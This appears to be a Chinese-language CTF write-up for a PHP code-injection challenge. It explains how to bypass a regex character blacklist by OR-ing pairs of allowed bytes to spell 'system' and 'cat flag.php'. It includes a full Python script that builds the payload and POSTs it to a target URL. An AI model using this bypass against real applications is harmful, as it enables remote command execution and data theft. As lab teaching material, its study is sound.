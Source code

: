 思路如下：

- 首先对ascii从0-255所有字符中筛选出未被过滤的字符，然后两两进行或运算，存储结果。
- 跟据题目要求，构造payload的原型，并将原型替换为或运算的结果
- 使用POST请求发送c,获取flag

利用0ec9490361cd9c3837fa061dd39dd649e766dc54师傅的脚本构造payload

``````python
import re
import urllib
from urllib import parse
import requests

contents = []

for i in range(256):
    for j in range(256):
        # 转换成16进制
        hex_i = '{:02x}'.format(i)
        hex_j = '{:02x}'.format(j)
        preg = re.compile(r'[0-9]|[a-z]|\^|\+|~|\$|\[|]|\{|}|&|-', re.I)
        # 匹配该16进制对应的ascill码对应的字符能否通过正则
        if preg.search(chr(int(hex_i, 16))) or preg.search(chr(int(hex_j, 16))):
            continue
        else:
            a = '%' + hex_i
            b = '%' + hex_j
            c = chr(int(a[1:], 16) | int(b[1:], 16))
            # ASCII 码值从 33 到 126 是可打印字符，包括标点符号、数字、大写和小写字母等。
            if 32 <= ord(c) <= 126:
                contents.append([c, a, b])


def make_payload(cmd):
    payload1 = ''
    payload2 = ''
    for i in cmd:
        for j in contents:
            if i == j[0]:
                payload1 += j[1]
                payload2 += j[2]
                break
    # 用两个可以通过正则的字符的ascii码或运算构造正确的payload从而绕过正则
    payload = '("' + payload1 + '"|"' + payload2 + '")'
    return payload


URL = input('url:')
# 构造出来的payload解析后为(system)(cat flag.php)
payload = make_payload('system') + make_payload('cat flag.php')
print(payload)
response = requests.post(URL, data={'c': urllib.parse.unquote(payload)})
print(response.request.body)
print(response.text)
``````


[ERROR]: could not find driver